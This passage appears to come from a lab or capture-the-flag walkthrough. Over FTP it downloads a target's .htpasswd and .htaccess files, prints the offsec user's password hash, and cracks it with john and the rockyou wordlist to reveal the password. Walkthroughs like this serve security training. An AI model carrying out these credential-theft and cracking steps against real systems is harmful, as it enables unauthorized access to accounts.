 Inside this user's directory, we find three files: **index.php**, **.htpasswd**, and **.htaccess**. Let's download them to our attack machine for closer inspection.

```
ftp> get index.php
local: index.php remote: index.php
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
76 bytes received in 0.10 secs (0.7232 kB/s)
ftp> get .htpasswd
local: .htpasswd remote: .htpasswd
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
45 bytes received in 0.11 secs (0.4185 kB/s)
ftp> get .htaccess
local: .htaccess remote: .htaccess
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
161 bytes received in 0.10 secs (1.5832 kB/s)
ftp> bye
221 Goodbye.
kali@kali:~$
```

The **index.php** file doesn't contain anything of value.

The **.htpasswd** file contains a password hash for the `offsec` user.

```
kali@kali:~$ cat .htpasswd 
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

The **.htaccess** file indicates that the **.htpasswd** file is used for authentication.

```
kali@kali:~$ cat .htaccess
AuthName "Qui e nuce nuculeum esse volt, frangit nucem!"
AuthType Basic
AuthUserFile c:\\wamp\www\.htpasswd
<Limit GET POST PUT>
Require valid-user
</Limit>kali@kali:~$
```

This means that if we crack the hash, we can authenticate as the `offsec` user.

### Password Cracking

We can use `john` to attempt to crack the retrieved password hash.

```
kali@kali:~$ john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
elite            (offsec)
1g 0:00:00:00 DONE (2020-12-27 17:56) 8.333g/s 211200p/s 211200c/s 211200C/s 191192..260989
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~$
```

